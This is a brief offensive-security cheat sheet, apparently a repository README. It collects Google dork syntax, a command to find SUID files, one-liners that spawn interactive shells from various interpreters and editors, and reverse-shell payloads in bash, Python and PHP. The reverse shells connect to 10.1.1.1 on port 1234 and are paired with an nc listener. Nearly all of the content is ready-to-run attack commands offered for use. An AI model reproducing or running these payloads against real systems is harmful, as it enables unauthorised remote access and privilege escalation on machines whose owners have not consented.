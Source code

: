 # google dork

site:example.com

cache:example.com

# find files permission for the current user

`find / -perm -u=s -type f 2>/dev/null`

# spawn tty

source https://netsec.ws/?p=337

`python -c 'import pty; pty.spawn("/bin/sh")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

`perl —e 'exec "/bin/sh";'`

`perl: exec "/bin/sh";`

`ruby: exec "/bin/sh"`

### lua:

`os.execute('/bin/sh')`

### (From within IRB)

`exec "/bin/sh"`

### (From within vi)

`:!bash`

### (From within vi)

`:set shell=/bin/bash:shell`

### (From within nmap)

`!sh`

# Reverse shell

source http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On the Attacker machine, use nc to open the listening port

`nc -lvp 1234`

On the Vulnerbale Machine do one of the following depending on the programming language

### bash

`bash -i >& /dev/tcp/10.1.1.1/1234 0>&1`


### python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.1.1.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'`


### php

`php -r '$sock=fsockopen("10.1.1.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
`
